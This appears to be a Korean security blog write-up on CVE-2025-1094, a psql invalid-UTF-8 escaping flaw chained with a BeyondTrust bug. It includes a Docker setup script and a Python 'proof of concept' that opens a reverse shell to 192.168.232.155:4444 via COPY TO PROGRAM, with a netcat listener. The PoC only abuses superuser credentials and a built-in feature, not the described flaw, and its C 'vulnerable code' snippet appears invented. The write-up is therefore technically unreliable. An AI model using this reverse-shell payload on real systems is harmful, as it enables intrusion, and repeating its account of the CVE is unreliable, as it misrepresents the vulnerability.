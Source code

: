 ```yaml
---
title: "[하루한줄] CVE-2025-1094: PostgreSQL 14.15의 SQL 인젝션 취약점으로 인한 RCE"
author: clalxk
tags: [clalxk, PostgreSQL, BeyondTrust, SQL Injection, Remote Code Execution, CVE-2025-1094, CVE-2024-12356]
categories: [1day1line]
date: 2025-4-30 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://thehackernews.com/2025/02/postgresql-vulnerability-exploited.html

## Target

- PostgreSQL 14.15
- BeyondTrust Privileged Remote Access (PRA) 및 Remote Support (RS) 소프트웨어
- 영향받는 버전: PostgreSQL 14.15 및 해당 버전을 사용하는 BeyondTrust 제품

## Explain

CVE-2025-1094는 PostgreSQL 14.15 버전의 psql 인터랙티브 도구에서 발견된 SQL 인젝션 취약점입니다. 이 취약점은 **입력값의 부적절한 검증**으로 인해 공격자가 임의의 명령을 실행할 수 있게 하며, 특히 BeyondTrust의 Privileged Remote Access (PRA)와 Remote Support (RS) 소프트웨어와 연계되어 원격 코드 실행(RCE) 공격이 가능합니다.

### Root Cause

psql 도구에서 사용자 입력을 적절히 검증하지 않고 실행하는 부분에서 취약점이 발생했습니다. 특히, 이를 활용한다면 메타 명령어(!)와 COPY TO PROGRAM 기능을 악용하여 쉘 명령을 실행할 수 있습니다.

해당 취약점은 PostgreSQL의 `psql` 도구가 유효하지 않은 UTF-8 문자열을 적절히 처리하지 못하는 구조적 결함에서 비롯됩니다. BeyondTrust의 `thin-scc-wrapper` 스크립트에서는 `gskey` 값을 echo 명령어를 통해 `dbquote` 스크립트에 전달하는데, 이 과정에서 공격자가 UTF-8로 위장한 악의적 바이트(`0xC0 0x27`)를 삽입하면 `pg_escape_string()` 함수로도 안전하지 않게 SQL 쿼리 내에 주입이 가능합니다. 이로 인해 psql에서 SQL 쿼리 실행이 중단되며, 뒤이어 나오는 메타 명령어(예: `\!`)가 실행되어 SQL Injection으로 이어집니다.

또한, `echo $gskey` 대신 `echo "$gskey"`와 같이 인자를 안전하게 처리하지 않고 인자 인젝션을 허용한 CVE-2024-12356 취약점과 결합될 경우, WebSocket 프로토콜을 통한 원격 비인증 RCE로 이어질 수 있습니다. 단독으로도 psql의 잘못된 UTF-8 처리만으로 RCE가 가능하다는 점에서 **중대한 설계상의 결함**입니다.

취약한 코드 예시:

```c
if (valid_utf8_check(input) == false) {
    execute_sql(input);
}
```

이러한 구현은 사용자 입력을 적절히 검증하지 않아 SQL 인젝션을 가능하게 합니다.

### PoC

### 1. 취약한 PostgreSQL 14.15 환경 설정

```bash

#!/bin/bash

echo "[+] PostgreSQL 14.15 도커 이미지 다운로드 중..."
sudo docker pull postgres:14.15

echo "[+] PostgreSQL 14.15 컨테이너 배포 중..."
sudo docker run --name vulnerable_postgres \
-e POSTGRES_USER=postgres \
-e POSTGRES_PASSWORD=postgres \
-e POSTGRES_DB=testdb \
-p 5432:5432 \
-d postgres:14.15

echo "[+] PostgreSQL 초기화 대기 중..."
sleep 10

echo "[+] 취약한 테이블 생성 중..."
sudo docker exec -i vulnerable_postgres psql -U postgres -d testdb <<EOF
CREATE TABLE users (id SERIAL PRIMARY KEY, username TEXT, password TEXT);
INSERT INTO users (username, password) VALUES ('admin', 'password123');
EOF

echo "[✓] 설정 완료. 취약한 PostgreSQL 14.15가 실행 중입니다!"
```

스크립트를 `setup.sh`로 저장한 후 실행 권한을 부여하고 실행합니다.

```bash
chmod +x setup.sh
sudo ./setup.sh
```

### 2. Exploit

```python
import psycopg2

# PostgreSQL 연결 정보
HOST = "127.0.0.1"
PORT = "5432"
DATABASE = "testdb"
USER = "postgres"
PASSWORD = "postgres"

# RCE를 위한 악의적인 SQL 인젝션 페이로드
payload = "COPY users TO PROGRAM 'bash -c \"bash -i >& /dev/tcp/192.168.232.155/4444 0>&1\"';"

try:
    conn = psycopg2.connect(host=HOST, port=PORT, dbname=DATABASE, user=USER, password=PASSWORD)
    cursor = conn.cursor()
    print("[+] PostgreSQL에 연결되었습니다!")
    cursor.execute(payload)
    print("[✓] RCE 실행 완료! Netcat 리스너를 확인하세요.")
except Exception as e:
    print("[-] 익스플로잇 실패:", str(e))
finally:
    if conn:
        cursor.close()
        conn.close()

```

Netcat 리스너를 실행하여 쉘 연결을 수신합니다.

```bash
nc -lvnp 4444
```

이후 PoC 스크립트를 실행하여 원격 쉘을 획득합니다.

```bash
python3 poc.py
```

## Reference

- [https://thehackernews.com/2025/02/postgresql-vulnerability-exploited.html](https://thehackernews.com/2025/02/postgresql-vulnerability-exploited.html)
